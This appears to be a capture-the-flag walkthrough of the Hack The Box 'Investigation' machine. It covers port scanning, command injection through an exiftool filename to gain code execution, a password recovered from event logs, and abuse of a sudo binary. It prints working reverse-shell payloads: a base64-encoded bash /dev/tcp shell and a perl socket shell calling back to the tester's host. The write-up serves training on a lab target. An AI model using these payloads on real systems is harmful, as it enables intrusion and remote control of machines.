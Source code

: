 # Investigation

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.236.234
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-24 10:42 EST
Warning: 10.129.236.234 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.236.234
Host is up (0.16s latency).
Not shown: 64782 closed tcp ports (conn-refused), 751 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Web Exploit based. We would have to add `eforenzics.htb` to our `/etc/hosts` file to access the web port.

### Exiftool RCE

The website reveals some web application advertising Digital Forensic Services.

<figure><img src="../../../.gitbook/assets/image (11) (8).png" alt=""><figcaption></figcaption></figure>

Clicking the big Go button reveals that we can upload a jpg file to the website for analysis.

<figure><img src="../../../.gitbook/assets/image (16) (7).png" alt=""><figcaption></figcaption></figure>

When I uploada file, it would produce a link to a report.

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

The file would be a .txt file of output from `exiftool` being used on the file.

<figure><img src="../../../.gitbook/assets/image (18) (2).png" alt=""><figcaption></figcaption></figure>

Very obviously, there is a JPG RCE vulnerability here. One possible parameter to inject commands in is the File Name. With the version, I found this vulnerability that allowed for RCE through the pipe character.

{% embed url="https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429" %}

From this, I attempted a few direct OS command injections but it didn't work out well. I then attempted some Base64 encoded stuff, and a simple ping command works!

<figure><img src="../../../.gitbook/assets/image (17) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (21) (7).png" alt=""><figcaption></figcaption></figure>

We can then replace the Base64 encoded command with a simple bash reverse shell and it works!

```
$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.56/4444 0>&1"  ' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni80NDQ0IDA+JjEiICAK
```

<figure><img src="../../../.gitbook/assets/image (20) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

When viewing the `/home` directory, we see there's a `smorton` user that we cannot access.

```
www-data@investigation:/home$ ls -la
total 12
drwxr-xr-x  3 root    root    4096 Aug 27 21:20 .
drwxr-xr-x 18 root    root    4096 Jan  9 16:53 ..
drwxrwx---  3 smorton smorton 4096 Jan  9 10:47 smorton
```

We need to do some looking around. I ran LinPEAS and found an interesting cronjob that was running.

<figure><img src="../../../.gitbook/assets/image (3) (1) (8).png" alt=""><figcaption></figcaption></figure>

Some backups of the `/home` directory were being created, and also there was an unquoted service path for the `date` binary.

### Windows Event Logs

Heading to the `/usr/local/investigation/analysed_log` file, we can find a Microsoft Outlook Message there.

```
www-data@investigation:/usr/local/investigation$ ls -la
total 1288
drwxr-xr-x  2 root     root        4096 Sep 30 23:43  .
drwxr-xr-x 11 root     root        4096 Aug 27 21:54  ..
-rw-rw-r--  1 smorton  smorton  1308160 Oct  1 00:35 'Windows Event Logs for Analysis.msg'
-rw-rw-r--  1 www-data www-data       0 Oct  1 00:40  analysed_log
```

I sent this back to my machine via `nc` and opened it using `msfconvert`. Afterwards, we can read the emails. There's a huge base64 encoded zip file attached.

```
Content-Type: text/plain; charset=UTF-8
Content-Disposition: inline
Content-Transfer-Encoding: 8bit

Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 

Regards.
Tom
```

I couldn't decode the base64 to get the file for some reason, so I ported the message to my Windows machine and downloaded the file there.

When unzipped, we would get this MS Windows Vista Event Log.

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

So the key here is to watch for logging and file transfers that are occurring. We can use this tool to dump the log file into a JSON file for easier reading.&#x20;

{% embed url="https://github.com/omerbenamram/evtx" %}

After looking around the entire log file (for a while), I chanced upon this string when searching for the Authentication term.

<figure><img src="../../../.gitbook/assets/image (12) (9) (1).png" alt=""><figcaption></figcaption></figure>

Turns out that this was the password for `smorton`. We can now `su` and capture the user flag.

### Sudo Binary

When checking sudo privileges as `smorton`, we can find one:

```
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

Attempting to run the binary just does this:

```
smorton@investigation:~$ sudo /usr/bin/binary
Exiting...
```

So I transferred this binary back to my machine and used `ghidra` to see what it does. Here's the decompiled main function:

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can use this to get these this information:

1. It needs a total of 3 parameters
2. A password of `lDnxUysaQn` is needed as one of the parameters
3. It exeecutes `curl` and `perl` on the script we download
4. Then it cleans up by removing the file.

Simple enough. We should just need to host a perl reverse shell on our machine via Python HTTP and let this binary download and execute it.&#x20;

```perl
use Socket;$i="10.10.14.56";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

After a bit of testing about the ordering of the parameters, I found what works:

```
smorton@investigation:~$ sudo /usr/bin/binary http://10.10.14.56/rev.perl lDnxUysaQn 
Running...
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Definitely more on the CTF side of HTB.&#x20;
